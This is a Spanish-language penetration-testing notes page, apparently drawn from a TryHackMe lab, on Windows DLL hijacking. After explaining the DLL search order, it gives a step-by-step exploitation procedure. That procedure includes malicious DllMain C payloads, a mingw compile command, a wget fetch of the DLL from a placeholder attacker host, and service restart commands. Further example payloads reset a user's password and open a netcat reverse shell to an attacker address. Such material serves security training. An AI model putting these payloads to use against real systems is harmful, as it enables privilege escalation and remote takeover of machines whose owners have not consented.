 # DLL hijacking (DLL path abuse)

## DLL Hijacking

*   Orden de búsqueda de DLL

    \<aside> 💡 En resumen, para las aplicaciones de escritorio estándar, Windows seguirá uno de los órdenes que se enumeran a continuación dependiendo de si SafeDllSearchMode está habilitado o no.

    Si **SafeDllSearchMode** está habilitado, el orden de búsqueda es el siguiente:

    1. El directorio desde el que se cargó la aplicación.
    2. El directorio del sistema. Utilice la función [**GetSystemDirectory**](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getsystemdirectorya) para obtener la ruta de este directorio.
    3. El directorio del sistema de 16 bits. No hay ninguna función que obtenga la ruta de este directorio, pero se busca.
    4. El directorio de Windows. Utilice la función [**GetWindowsDirectory**](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getwindowsdirectorya) para obtener la ruta de este directorio.
    5. El directorio actual.
    6. Los directorios que se enumeran en la variable de entorno PATH. Tenga en cuenta que esto no incluye la ruta por aplicación especificada por la clave de registro de **App Paths .** La clave **App Paths** no se utiliza al calcular la ruta de búsqueda de DLL .

    Si **SafeDllSearchMode** está deshabilitado, el orden de búsqueda es el siguiente:

    1. El directorio desde el que se cargó la aplicación.
    2. El directorio actual.
    3. El directorio del sistema. Utilice la función [**GetSystemDirectory**](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getsystemdirectorya) para obtener la ruta de este directorio.
    4. El directorio del sistema de 16 bits. No hay ninguna función que obtenga la ruta de este directorio, pero se busca.
    5. El directorio de Windows. Utilice la función [**GetWindowsDirectory**](https://docs.microsoft.com/en-us/windows/desktop/api/sysinfoapi/nf-sysinfoapi-getwindowsdirectorya) para obtener la ruta de este directorio.
    6. Los directorios que se enumeran en la variable de entorno PATH. Tenga en cuenta que esto no incluye la ruta por aplicación especificada por la clave de registro de **App Paths .** La clave **App Paths** no se utiliza al calcular la ruta de búsqueda de DLL . \</aside>
*   Guía de explotación

    ```powershell
    # Ver si hay DLL faltantes que sean requerido por aplicativos
    Process Monitor (ProcMon)
    ```

    ProcMon requerirá privilegios administrativos para funcionar, esta no es una vulnerabilidad que pueda descubrir en el sistema de destino. Si desea verificar cualquier software en busca de posibles vulnerabilidades de secuestro de DLL, deberá instalar el software en su entorno de prueba y realizar una investigación allí.

    La siguiente captura de pantalla le muestra qué buscar en la interfaz de ProcMon. Verá que algunas entradas dieron como resultado "NOMBRE NO ENCONTRADO".

    ![https://tryhackme-images.s3.amazonaws.com/user-uploads/603df7900d7b6f1dff18b0bd/room-content/2bffcc52df1b20dd298154b4da9b52ae.png](https://tryhackme-images.s3.amazonaws.com/user-uploads/603df7900d7b6f1dff18b0bd/room-content/2bffcc52df1b20dd298154b4da9b52ae.png)

    Las dos últimas líneas de la captura de pantalla anterior muestran que dllhijackservice.exe está intentando iniciar hijackme.dll en la carpeta "C:\Temp" pero no puede encontrar este archivo. Este es un caso típico de un archivo DLL faltante.

    {% code overflow="wrap" %}
    ```powershell
    # El segundo paso del ataque consistirá en que creemos este archivo en esa ubicación específica. Es importante que tengamos permisos de escritura para cualquier carpeta que deseemos usar para el secuestro de DLL. 

    #En este caso, la ubicación es la carpeta Temp para la que casi todos los usuarios tienen permisos de escritura; si se tratara de una carpeta diferente, tendríamos que comprobar los permisos.
    ```
    {% endcode %}

    **Creando el archivo  malicioso**

    Como se mencionó anteriormente, los archivos DLL son archivos ejecutables. Serán ejecutados por el archivo ejecutable y se ejecutarán los comandos que contienen. El archivo DLL que crearemos podría ser un shell inverso o un comando del sistema operativo según lo que queramos lograr en el sistema de destino o según las limitaciones de configuración. El siguiente ejemplo es un archivo DLL esqueleto que puede adaptar según sus necesidades.

    Código esqueleto para la DLL maliciosa: windows\_dll.c

    ```
    #include <windows.h>

    BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
        if (dwReason == DLL_PROCESS_ATTACH) {
            system("cmd.exe /k whoami > C:\\\\Temp\\\\dll.txt");
            ExitProcess(0);
        }
        return TRUE;
    }
    ```

    Dejando a un lado las partes repetitivas, puede ver que este archivo ejecutará el `whoami`comando ( `cmd.exe /k whoami`) y guardará la salida en un archivo llamado "dll.txt".

    El compilador mingw se puede usar para generar el archivo DLL con el siguiente comando y con el nombre que requerimos, que es hijackme.dll que vimos que busca el servicio:

    ```powershell
    x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll
    ```

    \<aside> 💡 Puede instalar fácilmente el compilador Mingw usando el comando apt install gcc-mingw-w64-x86-64

    \</aside>

    Una vez compilado, necesitaremos mover el archivo hijackme.dll a la carpeta Temp en nuestro sistema target. Puede usar el siguiente comando de PowerShell para descargar el archivo .dll en el sistema de destino:

    ```powershell
    wget -O hijackme.dll ATTACKBOX_IP:PORT/hijackme.dll
    ```

    ![https://tryhackme-images.s3.amazonaws.com/user-uploads/603df7900d7b6f1dff18b0bd/room-content/6dd2070eda0924f1b6d601e63301fe05.png](https://tryhackme-images.s3.amazonaws.com/user-uploads/603df7900d7b6f1dff18b0bd/room-content/6dd2070eda0924f1b6d601e63301fe05.png)

    Tendremos que detener e iniciar el servicio dllsvc nuevamente usando el siguiente comando:

    `sc stop dllsvc & sc start dllsvc`

    ![https://tryhackme-images.s3.amazonaws.com/user-uploads/603df7900d7b6f1dff18b0bd/room-content/a5fc76aa33e941941182d36a6c83e11f.png](https://tryhackme-images.s3.amazonaws.com/user-uploads/603df7900d7b6f1dff18b0bd/room-content/a5fc76aa33e941941182d36a6c83e11f.png)

    Puede conectarse a la máquina de destino usando RDP en su máquina atacante o iniciándolo directamente desde su navegador.

Procedimiento:

{% code overflow="wrap" %}
```powershell
# 1. Ver si hay DLL faltantes que sean requerido por aplicativos
Process Monitor (ProcMon)

# 2. Crear archivo.c con código que queremos como payload
nano windows_dll.c   # ver abajo payloads

# 3. Compilarlo el .c en DLL nombrándolo como el DLL que necesita algún servicio, según detectamos anteriormente con ProcMon
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll

# 4. Descargarlo en Temp o en directorio que cualquiera pueda ejecutar
wget -O hijackme.dll Attacker_IP:PORT/hijackme.dll

# 5. Detener y reiniciar el servicio que va a utilizar el dll
sc stop <servicio> & sc start <servicio>

# El servicio ejecutará el DLL
```
{% endcode %}

*   Ejemplos

    Este script c cambia la contraseña de un usuario a la que queremos. Debemos indicar nombre del output dll.txt

    ```c
    #include <windows.h>

    BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
        if (dwReason == DLL_PROCESS_ATTACH) {
            system("cmd.exe /k net user jack Password11");
            ExitProcess(0);
        }
        return TRUE;
    }
    ```

    Reverse shell ejecutando netcat, rrequiere tener un exe de netcat en el windows target:

    ```c
    #include <windows.h>

    BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
        if (dwReason == DLL_PROCESS_ATTACH) {
            system("cmd.exe /k nc.exe -e cmd.exe <Attacker_IP> <PORT>");
            ExitProcess(0);
        }
        return TRUE;
    }
    ```

    Shells windows:

    [Shells - Windows](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/windows)
